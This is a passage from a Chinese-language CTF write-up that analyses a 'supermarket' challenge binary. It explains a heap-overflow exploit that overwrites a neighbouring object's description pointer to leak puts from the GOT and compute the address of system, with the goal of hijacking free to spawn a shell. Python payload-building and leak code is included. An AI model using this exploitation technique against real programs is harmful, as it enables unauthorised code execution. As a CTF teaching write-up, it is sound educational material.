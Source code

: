 	int size;
	scanf("%d", &size);
	if (size < -20 || size > 20) {
		puts("you can't change the price");
		return 0;
	}
	*(*(0x804b080 + index) + 0x10) += size;
	if (*(*(0x804b080 + index) + 0x10) > 0 && *(*(0x804b080 + index) + 0x10) <= 0x3e7) {
		return 0;
	}
	puts("bad guy! you destroyed it");
	delete_com();	# 删除该index的com。		
}</pre>

函数功能也相对简单，并没有存在的漏洞。

程序的大致功能已经分析完毕，漏洞点识别到，利用思路：首先创建一个`com`为`'A'`并设置它的`desc_size`为`0x100`，接着使用`change_desc`函数修改`desc_size`的大小为`8`,紧接着创建第二个`com`为`'B'`并设置它的`desc_size`为`0x40`,此时再通过`change_desc`函数的溢出点修改`'A'`的`desc`来覆盖B中的内容，将相邻com中`desc 0x18`处存放的地址换成`puts.got.plt`的地址，然后通过`list_com`的函数就可以泄漏出puts在内存中的地址，然后通过偏移计算出`system`函数的地址；再通过同样的方式将`B`的`desc`地址替换成为`free.got.plt`,再通过`change_desc`直接编辑`'B'`的`desc`，就可以修改`free.got.plt`的函数地址，最后创建`com`为`'/bin/sh\x00'`，然后调用`delete`来指定该名字删除，就可以成功拿到shell

#### 0x02 漏洞利用分析 ####

对于这个漏洞利用的理解最好通过动态调试，来实时查看内存的布局

	add_com('a', 0x10, 0x100, 'AAAA')
	change_desc('a', 8, 'A'*7+'\x00')
	add_com('b', 0x10, 0x40, 'BBBB')

先创建`'a'`的`desc`大小为`0x100`,再修改`'a'`的`desc`的大小为`8`，接着创建`'b'`的`desc`大小为`0x40`.

![pwn]({{ '/images/201805/task_supermarket_2_1.png' | prepend: site.baseurl }})

通过`0x0804b080`可以看到我们已经创建的`'a'`和`'b'`的`com`地址，查看`'a'`的`desc`的地址为`0x08837028`,并且`desc_size`依然为`0x100`,因此在`change_desc`中修改`'b'`中的内容，此时`'b'`中的desc地址为`0x8837058`为了保证程序的一致性，我们就按照图中的内存布局来构造`payload1`

	payload1 = 'A'*7+'\x00' + p32(0) + p32(0x21) + 'b'+3*'\x00' + p32(0)
	payload1 += p32(0) + p32(0) + p32(0x10) + p32(0x40) + p32(puts_got)

构造完毕后，我们发送`payload1`

	change_desc('a', 0x100, payload1)

![pwn]({{ '/images/201805/task_supermarket_2_2.png' | prepend: site.baseurl }})

可以看到成功修改`'b'`中的`desc`地址为`pust.got.plt`，接着调用`list_com()`函数进行地址泄漏

![pwn]({{ '/images/201805/task_supermarket_2_3.png' | prepend: site.baseurl }})

成功泄漏地址`0xf7dacca0`,通过偏移计算`system`地址

	p.recvuntil('b: price.16, des.')
	puts_addr = u32(p.recv(4))
	print "[*] the puts addr is " + hex(puts_addr)
	system_addr = puts_addr - (libc.symbols['puts'] - libc.symbols['system'])
	print "[*] the system addr is " + hex(system_addr)
